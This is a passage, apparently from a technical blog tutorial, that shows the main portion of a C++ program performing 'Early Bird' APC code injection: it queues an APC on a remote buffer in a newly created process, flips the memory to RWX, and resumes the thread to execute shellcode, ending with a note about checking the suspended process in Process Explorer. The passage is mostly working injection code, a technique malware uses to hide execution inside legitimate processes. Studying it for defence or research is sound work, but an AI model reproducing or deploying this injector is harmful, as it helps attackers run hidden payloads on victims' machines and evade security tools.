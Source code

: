    SetConsoleTextAttribute(GetStdHandle(STD_OUTPUT_HANDLE), COLOR_GREEN);
    std::cout << "[*] Initializing Early Bird code injection!" << std::endl;

    if(!CreateTargetProcess(&hProcess, &hThread, &lpBuffer, processName))
        return 1;

    PTHREAD_START_ROUTINE APCroutine { static_cast<PTHREAD_START_ROUTINE>(lpBuffer) };
    if(!QueueUserAPC((PAPCFUNC)APCroutine, hThread, NULL))
    {
        SetConsoleTextAttribute(GetStdHandle(STD_OUTPUT_HANDLE), COLOR_RED);
        std::cerr << "\\t[-] Failed to queue the APC in the primary thread: 0x" << hThread << std::endl;
        SetConsoleTextAttribute(GetStdHandle(STD_OUTPUT_HANDLE), COLOR_RESET);

        VirtualFreeEx(hProcess, lpBuffer, 0, MEM_RELEASE);
        TerminateProcess(hProcess, GetExitCodeProcess(hProcess, &dwExitCode));
        return 1;
    }

    bMemProtect = VirtualProtectEx(hProcess, lpBuffer, sizeof(payload), PAGE_EXECUTE_READWRITE, &dwOldProtect);
    if(bMemProtect)
    {
        std::cout << "[+] Change memory protection from RW to RWX: 0x" << lpBuffer << "->RWX" << std::endl;
        std::cout << "[+] Queuing APC in thread: 0x" << hThread << std::endl;
        std::cout << "[+] Resume thread and executing shellcode in target process!" << std::endl;
        ResumeThread(hThread);
        system("pause");
    }
    
    // Cleaning up resources
    std::cout << "\\n[+] Cleaning up resource....!" << std::endl;
    SetConsoleTextAttribute(GetStdHandle(STD_OUTPUT_HANDLE), COLOR_RESET);
    VirtualFreeEx(hProcess, lpBuffer, 0, MEM_RELEASE);
    CloseHandle(hThread);
    CloseHandle(hProcess);

    EXIT_SUCCESS;
}
{% endhighlight %}


We can check it with the Process Explorer tool that the newly created process is in a suspended state.
